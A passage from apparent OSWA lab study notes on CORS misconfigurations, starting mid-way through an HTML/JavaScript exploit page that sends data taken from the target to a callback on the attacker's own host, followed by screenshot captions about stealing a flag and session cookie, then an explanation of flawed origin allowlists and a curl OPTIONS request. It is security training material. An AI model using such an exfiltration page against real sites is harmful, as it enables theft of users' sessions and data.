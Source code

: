 ```html
  })
  .then(response => response.json())
  .then(data => {
    fetch('http://192.168.45.175/callback?' +  encodeURIComponent(JSON.stringify(data)), {
      mode: 'no-cors'
    });
  });
}

get_code();
</script>
</head>
<body></body>
</html>
```
Refreshing `cors` website
![[Pasted image 20240814172140.png]]
Calling `http://127.0.0.1/cors_exercise1.html` in new tab
![[Pasted image 20240814172210.png]]
what it looks like being called in `BURPSUITE`
![[Pasted image 20240814172256.png]]
Grabbing `FLAG` and `SESSION COOKIE` `OS{anyDomainWillDo}`
![[Pasted image 20240814172330.png]]
See that it is being sent back into the `apache2` log
![[Pasted image 20240814172423.png]]
`tail /var/log/apache2/access.log `
![[Pasted image 20240814172448.png]]

--------------
#### 6.6.3 Improper Domain Allowlist

The _Access-Control-Allow-Origin_ header can only set a single domain. When an application needs to support CORS with multiple origins, the application must include server-side logic to respond with the appropriate value. Applications usually need to inspect the _Origin_ header on a request to determine if it matches one of the allowed domains and then add the appropriate value in the _Access-Control-Allow-Origin_ header on the subsequent response. If the application contains logic errors in this functionality, it can introduce misconfigurations in the CORS policy.

Two common approaches that result in these misconfigurations are checking if the _Origin_ header on a request includes a preset value or ends with a preset value and then reflecting that header value.

Our practice application includes an additional endpoint with flawed allowlist functionality. Let's use curl to send a request to the endpoint. We'll set -X "OPTIONS" to send an OPTIONS request, -i to include headers on the output, -k to allow insecure server connections when using SSL, and finally, the URL.

```bash
┌──(root💀gobots)-[14Aug2024 21:24:32]-[/home/kali/SUT/OSWA/cors]
└─# curl -X "OPTIONS" -i -k https://cors-sandbox/allowlist 
HTTP/2 200 
access-control-allow-credentials: true
access-control-allow-methods: GET
access-control-allow-origin: https://offensive-security.com
content-type: text/html; charset=utf-8
date: Wed, 14 Aug 2024 22:44:21 GMT
server: waitress
content-length: 0
```
Response to OPTIONS request to /allowlist
![[Pasted image 20240814184519.png]]